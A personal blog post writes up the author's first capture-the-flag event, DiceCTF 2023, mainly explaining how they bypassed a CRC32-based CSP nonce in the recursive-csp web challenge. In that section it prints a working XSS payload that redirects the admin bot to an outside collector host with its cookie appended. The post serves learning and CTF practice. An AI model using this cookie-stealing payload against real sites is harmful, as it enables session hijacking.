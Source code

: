 ```yaml
---
title: "DiceCTF 2023 Writeup"
date: 2023-02-11T09:47:42-08:00
description: My DiceCTF challenge experiences. What I learned and what cool things I found out.
images:
  - images/2023-02-11/solved-screenshot.png
tags:
  - ctf
  - security
type: post
---
```


Hello! 

DiceGang 🎲 just finished hosting DiceCTF 2023 (https://ctf.dicega.ng). It was first my first ever CTF event. I didn't really have any expectations going in and signed up on a whim. But guess what? I managed to solve one of the challenges and even gave a couple others a shot. I learned a ton from this event, and I'm definitely going to attend more CTF events in the future. 

Here are the my write ups.

### web/recursive-csp
* solved
* solves: 178
* description: the nonce isn't random, so how hard could this be? (the flag is in the admin bot's cookie)

We are greeted with a simple Hello World and a input for name. The form is simple, it will submit a `GET` request with `name` as query parameter. The new page returned by the document will have "Hello \"Name\"" instead. It was screaming XSS to me, so I just randomly inputting possible XSS attacks. But none of the `<script>` code was executing. Looking at the console error, it was blocked by the CSP header.
```
Content Security Policy: The page’s settings blocked the loading of a resource at inline (“script-src”).
```

The CSP header (`content-security-policy: default-src 'none'; script-src 'nonce-fe26ee76' 'unsafe-inline'; base-uri 'none';`) is only allowing script with particular nonce! This matches up with the hint. I started looking at how the nonce is generated by the server. At the first, I thought it was using the whole document as the input for hashing, and then only to realized that only the `name` parameter was used for input. This took way longer than I want to admit. Now I know what the server was using for the input, I need to know what kind of algorithm it is using. The nonce is always 8 characters so I started looking at any algorithm that will output 8 characters. This also took a really long time. Until I finally found a site: https://md5calc.com. I used to test md5 and other algorithms I know. What's cool about this site is that it outputs string encoded with other popular algorithms. This is how I found "CRC32B" 

> Future self here: it seems like CRC32B is a common hashing function provided by PHP.

Now I know how the server generate the nonce, I just need to somehow force it to match with my XSS. I wrote a simple js script to output `<script nonce="{input}">alert(1)</script>` where I replaced the "{input}" with a 8 characters random string and hoped the CRC32B hashing will return the same thing. My script didn't work and I was stuck. It was not able even brute force one match for me. 

I began searching online for a way to brute force it, and luckily stumbled upon this blog post by [Nayuki][Nayuki] https://www.nayuki.io/page/forcing-a-files-crc-to-any-value. The blog explains in details how the math works. To summarize it, the script adds 4 extra bytes to match the provided hash. This was really cool. I experimented with the script and found out some bytes that are injected are not URI friendly so I have to re-hash it again with a different value.

Since the CSP prevents and network request to send the cookie to an endpoint, I use `document.location` to change the headless admin bot to hope that it will redirect before it close the page. To my surprise it worked. At the end, I wrote a script to automate finding out the hash. Since the flag is in admin's cookie. We will need to use the admin bot. 

Here is my final payload
```html
<script nonce="55ed1ba5">document.location="https://adice.free.beeceptor.com?c="+document.cookie</script>  uO91
```

> Future self here: `https://beeceptor.com` was a site I used to get a temporary endpoint. However, reading everyone else's write up it seemed like `https://webhook.site` is what people usually use. 


Honestly, I faced a lot of difficulties during the whole process like figuring out the hash algorithm, troubleshooting why the random bytes weren't working, and understanding how the admin bot operates. It took me roughly 15 hours to solve this challenge, but even if I hadn't, it would still have been worth the effort. The amount of joy when I saw the `flag` was indescribable.


{{< figure
    src="/images/2023-02-11/solved-screenshot.png"
    alt="A solved screenshot for recursive-csp challenge"
>}}

Here is the author [strellic][strellic]'s writeup. He wrote a simple rust program to force the output which is super fast than my javascript version! It also worked a lot better. Additionally, the author created three more awesome challenges that are worth checking out!


## Unsolved challenge 

I attempted other challenges but couldn't solve them. Here are notes to myself for studying and documenting what I attempted.

### web/scorescope
* solves: 55
* description: I'm really struggling in this class. Care to give me a hand?

This challenge has a file named `template.py`, we need to implement all the functions and upload to the site for grading. It felt like university homework. The test cases included a `hidden` case so users couldn't guess it anyway. I couldn't solve this. I don't use python regularly. But here is a good write up by [r3kapig][r3kapig]

I learned a lot about exposing what the main module has and how to manipulate it.

### web/codebox
* solves: 30
* description: strellic makes csp challs, maybe i should try one sometime

This is another really cool challenge with CSP. It uses `report-uri` to leak information to an external server. It also a cool trick with how `URL()searchParams.get()` and `express`'s `req.query` handle multiple parameters with the same key. `URL` uses the first and `express` uses the last. This is mind blowing 🤯. I didn't know even think this was possible, I assume everything follow a standard.

[r3kapig][r3kapig] also solved it with detail write up. 



## Conclusion

This was my first ever CTF event, I am really proud that I even solved 1 challenge. I learned a lot by participating the event.

Here are things that I learned:
* Amazing people/groups to follow: [strellic][strellic], [ankursundara][ankursundara], [r3kapig][r3kapig], [Nayuki][Nayuki]
* What is a Content Security Policy header and how to use it.
* What is CRC32 hashing algorithm.
* [pwntool](https://github.com/Gallopsled/pwntools) to interact with server. Useful for scripting and parsing the output.


There are plenty more things that I won't list here. That's about it, thank you for reading. 


[strellic]: https://twitter.com/Strellic_
[ankursundara]: https://twitter.com/ankursundara
[r3kapig]: https://twitter.com/r3kapig
[Nayuki]: https://www.nayuki.io
